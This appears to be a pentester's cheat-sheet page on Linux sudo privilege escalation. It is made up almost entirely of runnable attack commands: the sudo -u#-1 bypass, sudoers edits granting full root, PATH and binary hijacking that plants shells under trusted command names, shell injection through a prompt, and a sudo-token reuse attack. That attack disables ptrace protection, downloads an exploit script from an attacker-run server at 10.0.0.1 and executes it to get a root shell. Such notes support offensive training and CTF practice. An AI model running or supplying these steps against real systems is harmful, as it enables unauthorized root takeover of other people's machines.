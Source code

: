 ```yaml
---
title: Sudo Privilege Escalation
description: Sudo commands might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-10-30
draft: false
---
```


## GTFOBins

[GTFOBins](https://gtfobins.github.io/) provides a wide variety of payloads to privilege escalation.  
So it's recommended to look for in there.

<br />

## Investigation

### Version

```sh
sudo --version
```

If the sudo **version <=1.28**, try the following command.

```sh
sudo -u#-1 /bin/bash
```

### As Another Users

```sh
sudo su root
sudo -u john whoami
# -s: run shell as target user
sudo -s
```

### List Privileges Commands

We may be able to see the commands available as another user.

```sh
sudo -l
sudo -ll

# Specify hostname
sudo -h <host-name> -l
# Execute via the hostname
sudo -h <host-name> /bin/bash
```

Also we might see from following files.

```sh
cat /etc/sudoers
cat /etc/sudoers.d/usersgroup
```

If we find the following result for sudoers,

```bash
(ALL, !root) NOPASSWD: /bin/bash
```

We might be able to get a root shell as follow.

```bash
sudo -u#-1 /bin/bash
```

<br />

## Edit Sudoers

If we have permission to write `/etc/sudoers`, we can modify this file.

```bash
sudo visudo -f /etc/sudoers
```

Now add the following line to allow us to execute all commands as root.  
Assume we logged in as `john`.

```bash
# Unrestriction
john ALL=(ALL:ALL) ALL
# or
john ALL=(root) NOPASSWD: ALL

# Specific command as root
john ALL=(root) NOPASSWD: /usr/bin/passwd
```

<br />

## Command Forgery (NOPASSWD)

If you are allowed to execute some command, you can forge the contents of the command.  
First off, check the properties.

```sh
sudo -l
(root) NOPASSWD: somecmd
```

If you can confirm that it can be executed as root without password, create the same named command in the arbitrary folder in which you can write files.

```sh
# option 1
echo /bin/sh > /tmp/somecmd
```

Next, change the permission for allowing to execute it.  
And add the path to the environment.

```sh
chmod +x /tmp/somecmd
export PATH=/tmp:$PATH
```

Now execute the command as root.  


```sh
sudo somecmd
whoami
# root
```

<br />

## Command Forgery (SETENV, NOPASSWD)

If you found there is a **SETENV:** in sudoers, you can set the **PATH** when running the command.

```sh
sudo -l
(root) SETENV: NOPASSWD: somecmd
```

As the previous section, prepare the payload.

```sh
echo '/bin/bash -p' > /tmp/somecmd
chmod +x /tmp/somecmd
```

Now run the command as root with setting the PATH.

```sh
sudo PATH=/tmp:$PATH somecmd
whoami
```

<br />

## Command Path Hijacking

```bash
sudo -l

env_reset
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

(root) python /home/user/example.py
```

If we can execute some command as root but **`env_reset`** and **`secure_path`** are set, we cannot override the **PATH** environment variable.  
Instead we need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/usr/sbin`**, we can create a payload in there.  
For example, we create a **`python`** binary under **`/usr/sbin`**.

```bash
echo /bin/bash > /usr/sbin/python
chmod +x /usr/sbin/python
```

Then execute the sudo command.

```bash
sudo python /home/user/example.py
```

Now we should get a root shell.

<br />

## Shell in Prompt

```bash
#!/bin/bash

read -p "What's you name: "
```

If we found there is another user’s script which can be executed as root, you can input **\`/bin/bash -i\`** to get a shell as another user.

<br />

## Reuse Sudo Tokens

Reference: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens)

If the current user executes some command using sudo, we might be able to escalate to root privilege.
Check if no restriction on ptrace.

```bash
cat /proc/sys/kernel/yama/ptrace_scope
0

# We can temporariliy set 0 if we have permissions.
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```

If the target system does not have **`gdb`** binary, we can download it.

```bash
# In local machine, download the debian package.
wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.1-0ubuntu1_amd64.deb -O gdb.deb
python3 -m http.server

# In remote machine, download the deb package and extract it.
wget http://10.0.0.1:8000/gdb.deb
dpkg -x gdb.deb ~
```

Next, prepare the exploit script from [the repo](https://github.com/nongiach/sudo_inject) and execute it.

```bash
# In local machine, download the shell script to exploit.
wget https://github.com/nongiach/sudo_inject/blob/master/exploit.sh
python3 -m http.server

# In remote machine, download it and execute.
wget http://10.0.0.1:8000/exploit.sh
sh exploit.sh
```

After that, we can spawn the root shell.

```bash
/tmp/activate_sudo_token
sudo su
```
